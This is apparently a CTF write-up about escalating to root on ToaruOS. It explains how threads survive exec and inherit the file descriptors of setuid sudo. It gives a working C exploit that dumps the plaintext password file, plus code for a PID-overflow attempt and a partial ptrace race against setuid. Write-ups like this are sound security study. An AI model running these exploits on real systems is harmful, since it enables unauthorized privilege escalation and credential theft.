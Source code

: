 ```yaml
---
layout: post
description: I like cheese with lots of holes. 🪤🫕🐭
---
```


We are given an image of the latest release of the [ToaruOS project](https://github.com/klange/toaruos)
and access to a shell as the `local` user. The goal is to read `/flag.txt` owned by root.

There are multiple vulnerabilities in the project, but the one I used resides in the way the OS handles
threads inside processes.

The `pthread_create` implementation calls `sys_clone`:
![](images/01.png)

`sys_clone` will call `clone` from `process.c`:
![](images/02.png)

This function will call `spawn_process` with the last argument (flags) set to 1.
This is the equivalent of `PROC_REUSE_FDS`, which, when set, will simply reuse the 
FD table for the new thread (process):
![](images/03.png)

The problem is that when `exec`-ing a new image, the threads created are not stopped.
This means that you can have a thread inside a new process and access every FD from it.
The thread will have a different address space, of course, but having access to the FD list
is enough to achieve privilege escalation.

The `sudo` binary has the `setuid` bit set (similar to Linux). It uses a custom library
called `libauth` to check the credentials, which opens `/etc/master.passwd`. The credentials 
are stored in plaintext.

Having access to the FD list of the `sudo` process, we can bruteforce the FDs to read the passwords.

## Building an app for ToaruOS

The OS uses a custom toolchain based on GCC and there are numerous ways to build an app for it.
I used the official documentation to build the entire OS, and added a custom application in the `apps` folder.
The Makefile builds everything, including the apps. The readme on GitHub provides some snippets to build the OS
inside Docker. After the app is built, I copied it alongside `flag.txt` in the Docker image provided by the CTF.

On the remote, I used the `fetch` binary, which comes preinstalled with the OS and is similar to `curl`.

## Final exploit

{% prism c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/signal_defs.h>
#include <sys/uregs.h>
#include <pthread.h>
#include <errno.h>

void* threadHandler(void* _unused) {
  for (;;) {
    usleep(100);
    for (int fd = 3; fd < 7; fd += 1) {
      char content[1024] = { 0 };
      int bytesRead = read(fd, content, sizeof content);
      if (bytesRead <= 0) {
        continue;
      }
      printf("%s\n", content);
    }
  }

  return NULL;
}

void threadThing() {
  pid_t pid = fork();

  if (pid < 0) {
    printf("Error forking: %d (%s)\n", errno, strerror(errno));
    exit(-1);
  }

  int isChild = pid == 0;

  if (isChild) {
    pthread_t thread;
    pthread_create(&thread, NULL, threadHandler, NULL);
    char* args[] = { "/bin/sudo", "-s", NULL };
    execvp(args[0], args);
  } else {
    waitpid(pid, NULL, 0);
  }
}

int main() {
  threadThing();
}
{% endprism %}

After multiple runs, the exploits successfully dumps the password list. The `local` user is already in `sudoers`,
so we can get a shell with `sudo -s` and the password of the `local` user.

## Other exploits considered

### PID overflow

The PID is stored in a variable of type `int` and is not reused when a process exists.
![](images/04.png)

If we manage to create enough processes to overflow the variable, we can get a process with PID 0.
This has several implications, for example the `ptrace` handler checks if the tracer is the current process,
but when a process does not have a tracer, the `tracer` field is zero. So, if we have access to a process with PID
0, we can trace (almost) any process:
![](images/05.png)

However, after creating ~30.000 processes, the instance crashes. Probably there was a memory leak somewhere.
Here is the code I used to test that:
{% prism c %}
void bruteforcePids() {
    for (int i = 0; i < 100000; i += 1) {
        pid_t pid = fork();
        if (pid < 0) {
            printf("Error forking: %d (%s)\n", errno, strerror(errno));
            exit(-1);
        }

        int isChild = pid == 0;

        if (isChild) {
            exit(0);
        } else {
            if (i % 10000 == 0) {
                printf("%d: %d\n", i, pid);
            }
            waitpid(pid, NULL, 0);
        }
    }
}
{% endprism %}

### Race condition in `ptrace`

When a process is `ptrace`d, the kernel sets 2 flags on the process object while holding a lock:
![](images/06.png)

When a process is launched, and the file has the `setuid` bit set, the kernel checks if the process
is being `ptrace`d, and in that case ignores the bit:
![](images/07.png)

The issue is that checking these flags is not done by holding that lock. So you can create a race 
between these 2 functions and have a process with root privileges being `ptrace`d by a normal user.

I didn't end up implementing this, as the race was pretty tight, but it is possible in theory. I only
have bits of the code which sets up the `ptrace`ing:

{% prism c %}
void child() {
    long status = -1;

    printf("hello from child\n");

    status = ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    if (status != 0) {
        printf("error PTRACE_TRACEME: %ld\n", status);
        exit(0);
    }

    char* args[] = { "/bin/sudo", "-s" };
    status = execvp(args[0], args);

    printf("exec failed: %ld\n", status);
}

void parent(pid_t pid) {
    int childStatus;
    while (1) {
        pid_t result = waitpid(pid, &childStatus, WSTOPPED);

        if (result < 0) {
            continue;
        }

        if (WIFSTOPPED(childStatus) && WSTOPSIG(childStatus) == SIGTRAP) {
            struct URegs regs;
            ptrace(PTRACE_GETREGS, pid, NULL, &regs);
            int event = (childStatus >> 16) & 0xff;
            if (event == PTRACE_EVENT_SYSCALL_ENTER) {
                printf("Got syscall: %ld\n", regs.rax);
            }
            ptrace(PTRACE_CONT, pid, NULL, NULL);
        }
    }
}

void ptraceThing() {
    pid_t pid = fork();
    if (pid < 0) {
        printf("Error forking: %d (%s)\n", errno, strerror(errno));
        exit(-1);
    }

    if (pid != 0) {
        parent(pid);
    } else {
        child();
    }
}
{% endprism %}